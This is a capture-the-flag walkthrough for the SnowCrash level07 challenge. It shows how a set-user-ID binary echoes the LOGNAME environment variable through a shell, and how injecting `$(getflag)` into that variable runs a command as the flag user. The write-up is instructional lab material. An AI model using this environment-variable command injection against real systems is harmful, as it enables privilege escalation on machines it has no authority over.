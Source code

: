# Level 07

## Analysis

In the user's home directory, we found a script named `level07`. The permissions on the file indicated it was a SUID (Set owner User ID up on execution) binary, which is often a target for privilege escalation exploits.

```bash
level07@SnowCrash:~$ ll
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile*
```

We used the `strings` command to read all the printable strings contained within the binary:

```bash
level07@SnowCrash:~$ strings level07
...
LOGNAME
/bin/echo %s
;*2$"
...
```

We noticed lines that suggest the script prints something to the terminal using the echo command, specifically utilizing the `LOGNAME` environment variable:

```
LOGNAME
/bin/echo %s
```

By running the `env` command, we observed `LOGNAME=level07`, indicating `LOGNAME` is an environment variable. The script consistently printed `level07` when executed, leading us to suspect `LOGNAME` was being used within the script. We then injected code via this environment variable:

```bash
LOGNAME='$(getflag)' ./level07
```

This environment variable exploitation allowed us to execute arbitrary commands, specifically `getflag`, to retrieve the flag.

**Type of Exploit**: Environment Variable Manipulation / SUID Exploit